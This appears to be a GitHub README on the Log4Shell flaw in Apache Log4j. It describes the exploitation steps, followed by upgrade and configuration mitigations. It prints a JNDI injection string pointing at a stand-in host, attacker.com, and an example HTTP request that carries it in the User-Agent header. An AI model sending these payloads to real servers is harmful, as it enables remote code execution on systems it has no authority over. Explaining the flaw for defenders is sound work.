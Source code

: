 # LOG4j Vulnerability

Log4j is a popular Java-based logging utility used in many applications to log messages for debugging and monitoring purposes. It is part of the Apache Logging Services and provides a flexible framework for logging in Java applications. Log4j allows developers to control logging levels, output formats, and destinations (such as console, files, or remote servers).

## How to Exploit Log4j (Log4Shell)
Exploiting the Log4j vulnerability typically involves sending a malicious payload that triggers the logging mechanism to perform a JNDI lookup, which can lead to remote code execution. Here’s how the exploitation process generally works:

- ### Identify Vulnerable Application:
  The attacker identifies an application that uses a vulnerable version of Log4j (versions 2.0 to 2.14.1).

- ### Craft Malicious Input:
 The attacker crafts a malicious input string that includes a JNDI lookup. For example:
```text
${jndi:ldap://attacker.com/a}
```
- ### Send Malicious Payload:
  The attacker sends this payload to the application in a way that it gets logged. This could be through HTTP headers, user input fields, or any other logging mechanism that the application uses.

Example: An attacker might send a request to a vulnerable web application:

```text
GET /some-endpoint HTTP/1.1
Host: vulnerable-app.com
User-Agent: ${jndi:ldap://attacker.com/a}
```
- ### Trigger JNDI Lookup:
  When Log4j processes the log message, it interprets the ${jndi:...} syntax and performs a JNDI lookup to the specified LDAP server (in this case, attacker.com).

- ### Execute Malicious Code:
  The attacker’s LDAP server responds with a reference to a malicious Java class. When the application loads this class, it executes arbitrary code on the server, leading to a full compromise.

## MITIGATION

- ### Upgrade Log4j:
  Update to the latest version of Log4j (2.15.0 or later) where the vulnerability is patched.

- ### Remove JNDI Lookup Feature:
- If upgrading is not immediately possible, consider disabling the JNDI lookup feature by setting the system property:
```text
log4j2.formatMsgNoLookups=true
```
